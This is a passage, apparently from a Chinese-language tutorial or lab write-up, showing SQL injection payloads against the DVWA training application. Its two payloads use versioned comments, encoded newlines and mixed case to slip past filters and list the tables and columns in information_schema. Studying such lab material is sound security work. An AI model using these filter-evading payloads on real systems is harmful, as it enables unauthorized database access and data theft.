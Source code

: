 ![Alt text](image-45.png)   
获取数据库中的表。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ group_concat(/*!11145table_name)*/,2 /*!--+/*%0A/*!from *//*!--+/*%0AinforMation_schEma*//*!11145.tables*/ where %0Atable_schema='dvwa'
```   
成功获得表名。   
![Alt text](image-46.png)   
获取表中的字段名。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ group_concat(/*!11145column_name)*/,2 /*!--+/*%0A/*!from *//*!--+/*%0AinforMation_schEma*//*!11145.columns*/ where %0Atable_name='users'--+
```